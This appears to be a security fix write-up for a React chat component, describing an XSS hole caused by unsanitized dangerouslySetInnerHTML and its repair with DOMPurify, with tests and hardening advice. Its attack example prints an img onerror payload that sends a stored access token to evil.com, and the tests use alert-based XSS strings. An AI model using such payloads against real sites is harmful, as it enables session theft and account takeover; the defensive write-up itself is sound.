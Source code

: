 # XSS Vulnerability Fix

## Issue Description

**Severity:** 🔴 CRITICAL

**Location:** `frontend/src/components/ChatMessage.js`

**Vulnerability:** Cross-Site Scripting (XSS) via unsanitized HTML rendering

The component was using `dangerouslySetInnerHTML` to render user-generated content without any sanitization. This allowed attackers to inject malicious JavaScript that would execute in other users' browsers.

### Attack Example

An attacker could send a chat message like:
```html
<img src=x onerror="fetch('https://evil.com/steal?token='+localStorage.getItem('access_token'))">
```

This would:
1. Execute JavaScript in the victim's browser
2. Steal authentication tokens from localStorage
3. Send stolen tokens to the attacker's server
4. Allow complete account takeover

## Solution Implemented

### 1. Added DOMPurify Library

**File:** `frontend/package.json`

Added `dompurify@^3.0.6` as a dependency. DOMPurify is a widely-trusted XSS sanitization library that:
- Removes all potentially malicious HTML/JavaScript
- Maintains safe HTML formatting
- Has zero dependencies
- Is actively maintained and audited

### 2. Updated ChatMessage Component

**File:** `frontend/src/components/ChatMessage.js`

**Before (Vulnerable):**
```javascript
const formatContent = (content) => {
  return content
    .replace(/\*\*(.*?)\*\*/g, '<strong>$1</strong>')
    .replace(/\*(.*?)\*/g, '<em>$1</em>')
    .replace(/\n/g, '<br>');
};

// Later in render:
<div dangerouslySetInnerHTML={{ __html: formatContent(message.content) }} />
```

**After (Secure):**
```javascript
import DOMPurify from 'dompurify';

const formatContent = (content) => {
  const formatted = content
    .replace(/\*\*(.*?)\*\*/g, '<strong>$1</strong>')
    .replace(/\*(.*?)\*/g, '<em>$1</em>')
    .replace(/\n/g, '<br>');
  
  // Sanitize HTML to prevent XSS attacks
  return DOMPurify.sanitize(formatted, {
    ALLOWED_TAGS: ['strong', 'em', 'br', 'p', 'span', 'div', 'ul', 'ol', 'li', 'code', 'pre'],
    ALLOWED_ATTR: ['class'],
    KEEP_CONTENT: true
  });
};

// Later in render (with security comment):
{/* Content is sanitized via DOMPurify in formatContent() to prevent XSS */}
<div dangerouslySetInnerHTML={{ __html: formatContent(message.content) }} />
```

## Security Configuration

The DOMPurify configuration is intentionally restrictive:

- **ALLOWED_TAGS**: Only safe formatting tags that don't execute scripts
- **ALLOWED_ATTR**: Only `class` attribute for styling (no `onclick`, `onerror`, etc.)
- **KEEP_CONTENT**: Preserves text content even if tags are removed

This configuration:
✅ Allows legitimate markdown formatting
✅ Blocks all JavaScript execution
✅ Blocks inline event handlers
✅ Blocks dangerous tags (`<script>`, `<iframe>`, etc.)
✅ Blocks dangerous attributes (`onclick`, `onerror`, etc.)

## Testing the Fix

### Manual Test

1. Send a message with malicious content:
```
<script>alert('XSS')</script>
<img src=x onerror="alert('XSS')">
**Bold text** with *italic*
```

2. Expected result:
   - Scripts are completely removed (no alert)
   - Image with onerror is removed
   - Bold and italic formatting still works

### Automated Test

Create a test file: `frontend/src/components/__tests__/ChatMessage.test.js`

```javascript
import React from 'react';
import { render } from '@testing-library/react';
import ChatMessage from '../ChatMessage';

describe('ChatMessage XSS Protection', () => {
  it('should sanitize malicious script tags', () => {
    const message = {
      id: '1',
      role: 'user',
      content: '<script>alert("XSS")</script>Hello',
      timestamp: new Date().toISOString(),
    };
    
    const { container } = render(<ChatMessage message={message} />);
    const scriptTags = container.querySelectorAll('script');
    
    expect(scriptTags.length).toBe(0);
    expect(container.textContent).toContain('Hello');
  });

  it('should sanitize inline event handlers', () => {
    const message = {
      id: '2',
      role: 'user',
      content: '<img src=x onerror="alert(\'XSS\')">',
      timestamp: new Date().toISOString(),
    };
    
    const { container } = render(<ChatMessage message={message} />);
    const images = container.querySelectorAll('img');
    
    images.forEach(img => {
      expect(img.getAttribute('onerror')).toBeNull();
    });
  });

  it('should preserve safe formatting', () => {
    const message = {
      id: '3',
      role: 'user',
      content: '**Bold** and *italic* text',
      timestamp: new Date().toISOString(),
    };
    
    const { container } = render(<ChatMessage message={message} />);
    
    expect(container.querySelector('strong')).toBeTruthy();
    expect(container.querySelector('em')).toBeTruthy();
  });
});
```

## Installation

To apply this fix:

```bash
# Install dependencies
cd frontend
npm install

# Run tests (if available)
npm test

# Build for production
npm run build
```

## Additional Recommendations

While this fix addresses the immediate XSS vulnerability, consider these additional security measures:

### 1. Move Tokens to HttpOnly Cookies
**Current:** Tokens stored in `localStorage` (vulnerable to XSS)
**Better:** Use `httpOnly` cookies (immune to XSS)

### 2. Implement Content Security Policy (CSP)
Add CSP headers to prevent inline scripts entirely:
```
Content-Security-Policy: default-src 'self'; script-src 'self'; style-src 'self' 'unsafe-inline';
```

### 3. Add Input Validation on Backend
Sanitize or validate chat messages on the server side as well (defense in depth).

### 4. Regular Security Audits
- Run `npm audit` regularly to check for vulnerable dependencies
- Use tools like Snyk or Dependabot for automated vulnerability scanning

## References

- [DOMPurify Documentation](https://github.com/cure53/DOMPurify)
- [OWASP XSS Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
- [React Security Best Practices](https://react.dev/learn/writing-markup-with-jsx#the-rules-of-jsx)

## Status

✅ **FIXED** - XSS vulnerability patched with DOMPurify sanitization
📅 **Date:** October 4, 2025
👤 **Reviewed by:** Security Audit

